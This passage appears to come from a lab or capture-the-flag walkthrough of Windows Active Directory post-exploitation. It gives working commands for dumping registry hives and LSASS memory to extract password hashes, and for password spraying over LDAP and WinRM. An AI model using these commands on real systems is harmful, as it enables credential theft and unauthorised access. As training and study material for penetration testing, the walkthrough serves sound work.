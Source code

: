 + **Dump the hives**

    ```cmd
    reg save hklm\sam C:\tmp\sam && reg save hklm\system C:\tmp\system && reg save hklm\security C:\tmp\security
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*y3GZjDcWIqP5I3yrCn3HNA.png)

+ Download the backup files from C:\tmp
+ Extract hashes with Impacket’s `secretsdump.py`
    ```bash
    secretsdump.py -sam sam -security security -system system LOCAL
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*RVFku_HZ1KamCyq22NMDsg.png)

    Here, we even have a `DefaultPassword` in clear text that we can use later for password spraying against the users we already have. We also have a local administrator hash, which can be abused in many ways.


### Dumping LSASS

It’s also worth dumping LSASS to check if a Domain Admin has recently logged in, leaving credentials in memory.

+ Dump LSASS memory using [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) from the SysInternals suite

```powershell 
C:\tmp\procdump.exe -accepteula -ma lsass.exe C:\tmp\lsass.dmp
```
![](https://cdn-images-1.medium.com/max/1000/1*b7NIsgcsac3c_Kv4bA7xxw.png)

+ Extract hashes with `pypykatz`

    ```bash
    pypykatz lsa minidump lsass.dmp
    ```

### Password Spraying

Since we have the default password, we can expect multiple successful logins.

```bash
nxc ldap 10.10.11.39 -u users.txt -p 'password' --continue-on-success 
```
![](https://cdn-images-1.medium.com/max/1000/1*b_Ss06SvagwxaqrH7EKK3A.png)

From this output, focus on identifying high-privilege accounts, especially those belonging to the Help Desk group we discovered earlier in BloodHound.

Some of these accounts also have WinRM access to the target machine

```bash
nxc winrm 10.10.11.39 -u users.txt -p 'password' --continue-on-success
```
![](https://cdn-images-1.medium.com/max/1000/1*0_rjrPCO0otieqgVnP-TdA.png)
